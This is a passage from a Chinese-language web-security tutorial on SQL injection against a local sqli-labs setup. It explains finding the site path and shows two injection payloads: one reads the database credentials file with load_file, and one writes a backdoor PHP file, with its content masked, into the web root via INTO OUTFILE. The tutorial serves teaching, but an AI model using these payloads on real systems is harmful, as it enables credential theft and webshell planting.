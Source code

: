 就可以利用该网站相关漏洞爆出网站路径，一般访问相应的文件地址，返回的报错信息就会显示网站路径信息

#### 平台配置文件

结合前面的读取文件操作来读取搭建网站平台的配置文件，通过[默认路径](https://blog.csdn.net/weixin_30292843/article/details/99381669)去尝试找到突破口，但如果更改了默认安装路径，也是很难进行（不怎么常用）。

##### 示例

Apache的默认配置文件目录为`/usr/local/app/apache2/conf/extratpd-vhosts.conf`在Apache安装目录下面的`/conf/extratpd-vhosts.conf`

![](https://gitee.com/YatJay/image/raw/master/img/202201310949001.png)

可以看到网站目录结构。

#### 爆破

什么信息都没办法获取到，我们运用一些常见固定的可能安装位置生成字典，对目标网站进行爆破

例如：

- windows：d:/www/root/xiaodi8/
- linux：/var/www/xiaodi8

### 读取文件列表——使用文件读写函数读写上述获得的文件及目录

找到路径后进行的操作，常见的就是读取文件列表

#### 读取敏感文件(演示)

假设已经获取网站路径，读取当前网站的数据库配置文件

```sql
?id=-1' union select 1, load_file('D:\\JayProgram\\PHPstudy\\PHPTutorial\\WWW\\PenTest\\sqlilabs\\sql-connections\\db-creds.inc') ,3 --+
```

![](https://gitee.com/YatJay/image/raw/master/img/202201312020273.png)

查看页面源代码可见读取的配置文件内容

![](https://gitee.com/YatJay/image/raw/master/img/202201312021945.png)

#### 写入后门文件(演示)

使用文件写入函数向指定目录写入“一句话木马”

```sql
?id=-1' union select 1, 'xxxxxxxxxxxxxxxx' ,3 into outfile 'D:/JayProgram/PHPstudy/PHPTutorial/WWW/PenTest/sqlilabs/xxx.php'--+
```

![](https://gitee.com/YatJay/image/raw/master/img/202201312025317.png)

查看可见写入成功

![](https://gitee.com/YatJay/image/raw/master/img/202201312025861.png)

